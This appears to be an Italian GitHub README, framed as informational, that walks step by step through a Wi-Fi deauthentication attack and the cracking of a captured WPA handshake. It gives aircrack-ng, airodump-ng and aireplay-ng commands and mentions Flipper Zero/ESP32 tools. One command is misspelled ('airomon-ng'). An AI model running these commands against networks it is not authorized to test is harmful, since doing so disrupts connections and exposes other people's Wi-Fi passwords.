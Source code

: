# Password stealing project

Il nostro progetto è stato quello di evidenziare le vulnerabilità di una rete wifi comune a 2.4GHz. Questo progetto nasce solo ed esclusivamente a scopo informativo e vi invitiamo a replicare il progetto con reti create da voi per verificarne le vulnerabilità.

## Listening wifi

Per iniziare ci servirà un OS Linux con scaricato il tool [Aircrack-ng](https://www.aircrack-ng.org/). Possibilmente usate come distro Kali in quanto preinstallato.
Iniziamo aprendo un terminale e seguendo i seguenti comandi: <br>
```terminal
root@kali:~# iwconfig
```
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236414799806484/1.png?ex=65d7a2e1&is=65c52de1&hm=efddbf203bfb5a72ed726fb09f1d7ef179bfdfb0abc165da05397ee78f9615e9&">
</p>
Una volta eseguito il comando ci usciranno tutte le schede internet che possediamo sulla macchina. Per iniziare creiamo una scheda parallela virtuale per iniziare il listening delle reti: <br>

```bash
root@kali:~# sudo airomon-ng start wlan
```
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236418083815434/2.png?ex=65d7a2e2&is=65c52de2&hm=bc9a2b588cddc145579de3a42ba85e83914b73f1a3f8b34bc8c5afdd0662ee75&">
</p>
Successivamente per visualizzare tutte le reti disponibili: <br>

```bash
root@kali:~# sudo airodump-ng wlan0mon
```
<br>
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236418327089172/4.png?ex=65d7a2e2&is=65c52de2&hm=f3a07c39e30e47b8ff61a4d6462ff30ecdab02777c04ae4f9481e96146d5263f&">
</p>
Tra i risultati dobbiamo copiare il BSSID della rete in questione ed eseguire il comando:

```bash
root@kali:~# airodump-ng -canale -w NomeFile -d BSSID wlan0mon
```
In questo modo stiamo verificando solo la rete in questione.
## Deauth attack
Una volta che siamo in listening wifi possiamo procedere con il [Deauth Attack](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack) (Oggi useremo il Flipper Zero ma ci sono altre alternative come ESP32 Marauder ecc...).
Iniziamo facendo una scansione delle reti, selezioniamo la rete in questione e iniziamo l'attacco.
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205237572805201940/IMG_20240208_204300.jpg?ex=65d7a3f5&is=65c52ef5&hm=c392c425e720c22d01c86162d3928e617a214758450acf1ded75b676056fdc25&">
</p>
Attacco deauth integrato <br>

```bash
root@kali:~# sudo aireplay-ng --deauth 0 -a BSSID -c STATION wlan0mon
```
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236418616627231/5.png?ex=65d7a2e2&is=65c52de2&hm=f9644f3e6bb8f83eaf5c1015c61aa207a690676337c5b10d5e45bde5d71091d4&">
</p>
## WPA handshake decrypt
Una volta effettuato l'attacco sul terminale linux dovremo trovare un WPA handshake. Se non compare continuiamo l'attacco in modo che il dispositivo si ricolleghi. Una volta trovato il WPA handshake nella cartella locale troveremo dei file "NomeFile" che contengono tutte le informazioni che ci servono sulla rete. Per eseguire la decriptazione della password del wifi necessitiamo di un file che contenga molte password da provare sul file criptato. Per iniziare la decriptazione: <br>

```bash
root@kali:~# sudo aircrack-ng NomeFile-01.cap -w Password.txt 
```
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/894962833773711380/1205236418977472573/6.png?ex=65d7a2e2&is=65c52de2&hm=c6b58fe3c05a4b49fa33d9e3d85432edd2f321823269aa00fefa3232dc6756d0&">
</p>
Il tempo di decriptazione può variare in base alla difficoltà della password.

## Tools
[Flipper Zero](https://flipperzero.one/) accoppiato con [ESP32](https://en.wikipedia.org/wiki/ESP32). <br>
Degno sostituto [Marauder](https://github.com/justcallmekoko/ESP32Marauder) sempre con base ESP32. <br>
Tool usato per condividere lo schermo in rete locale[Live-ScreenShare](https://github.com/callmenoway/Live-ScreenShare)
